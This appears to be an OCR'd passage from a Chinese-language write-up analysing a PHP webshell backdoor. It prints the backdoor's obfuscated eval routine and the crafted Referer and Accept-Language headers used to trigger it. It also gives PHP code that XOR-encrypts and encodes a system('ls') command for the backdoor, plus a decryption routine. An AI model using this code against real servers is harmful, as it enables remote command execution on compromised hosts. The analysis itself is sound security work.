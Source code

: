```php
                $s[$i] .= $p;
                $e = strpos($s[$i], $f);
                if ($e) {
                    $k = $kh . $kf;
                    ob_start();
                    @eval(@gzuncompress(@x(@base64_decode(preg_replace(array("/_/", "/-/"), array("/", "+"), $ss($s[$i], 0, $e))), $k)));
                    $o = ob_get_contents();
                    ob_end_clean();
                    $d = base64_encode(x(gzcompress($o), $k));
                    print("<$k>$d</$k>");
                    @session_destroy();
                }
            }
        }
    }
}
// doors();


/* 3. 分析过程中我们得到了payload为在请求报文中用以下字段*/
Accept-Language: ah;q=0.8,an-US;q=0.1,an;q=0.2,an;q=0.3,
Referer: http://114.114.114.114/?q0=hahaha&q1=5af&q2=Gf5IyklXJaq0MqxNM67YYWFAiWA6&q3=92d

// 注意：其中q2的值是通过算法去计算得到的，也是最后执行的命令

/* 4. 通过算法生成q2的值，以下是q2值生成算法 */
function x($t, $k="abcdeylg") {
	$c = strlen($k);
	$l = strlen($t);
	$o = "";
	for ($i = 0;$i < $l;) {
		for ($j = 0;($j < $c && $i < $l);$j++, $i++) {
			$o.= $t{$i} ^ $k{$j};
		}
	}
	return $o;
}

echo preg_replace(array("/_/", "/-/"), array("/", "+"), base64_encode(x(gzcompress("system('ls');"))));

/* 5. 构建最终的payload提交到后门出得到加密后的结果*/
Accept-Language: ah;q=0.8,an-US;q=0.1,an;q=0.2,an;q=0.3,
Referer: http://114.114.114.114/?q0=hahaha&q1=5af&q2=Gf5IyklXJaq0MqxNM67YYWFAiWA6&q3=92d

// 加密结果
<abcdeylg>Gf4uryR37FdpJrIZarr5a8TCJ8DoCZMPC7DbGPxGuDoVZRbmFPUu9DrJHGFvNlsrzXrfFpAxWGSKFvXvNiSWfb60G7i6jG28fkRv</abcdeylg>


/* 6. 通过解密算法解密拿到的密文*/
$data = $_POST['c'];
function x($t, $k="abcdeylg") {
	$c = strlen($k);
	$l = strlen($t);
	$o = "";
	for ($i = 0;$i < $l;) {
		for ($j = 0;($j < $c && $i < $l);$j++, $i++) {
			$o.= $t{$i} ^ $k{$j};
		}
	}
	return $o;
```